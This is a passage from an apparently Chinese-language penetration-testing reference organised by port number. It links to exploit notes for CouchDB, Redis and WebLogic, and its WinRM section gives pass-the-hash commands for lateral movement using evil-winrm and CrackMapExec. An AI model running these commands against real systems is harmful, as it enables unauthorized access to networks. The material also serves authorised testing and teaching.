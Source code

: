 
## 5984

`Couchdb`

- [未授权访问漏洞](../软件服务安全/CS-Exploits.md#couchdb)
- [垂直权限绕过漏洞](../软件服务安全/CS-Exploits.md#couchdb)
- [任意命令执行漏洞](../软件服务安全/CS-Exploits.md#couchdb)

---

## 5985/5986

`Winrm(http)` / `Winrm(https)`

WinRM 是 Microsoft 对 WS-Management 协议的实现,WS-Management 协议即⼀种基于标准简单对象访问协议的协议,它让来⾃不同供应商的硬件和操作系统能够互相操作。

winRM 的默认端⼝为 5985（http）或 5986（https）。winRM 横向移动同时适⽤于⼯作组和域环境。

**HASH 传递**
```bash
# evil-winrm
gem install evil-winrm
evil-winrm -i 192.168.xx.xx -u Administrator -H xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

```bash
# CrackMapExec
cme winrm 192.168.xx.xx -u admin -H 00000000000000000000000000000000:xxxxxxxxxxxxxxxxxxxxxxxxxxxx -x whoami
```

---

## 6379

`Redis`

- 爆破弱口令
- [Redis未授权访问](../软件服务安全/CS-Exploits.md#redis)

---

## 7001/7002

通常是 `weblogic` 中间件端口

- 弱口令,ssrf,反序列化
- [weblogic渗透](../Web安全/BS-Exploits.md#weblogic)

---

## 8123

`ClickHouse`
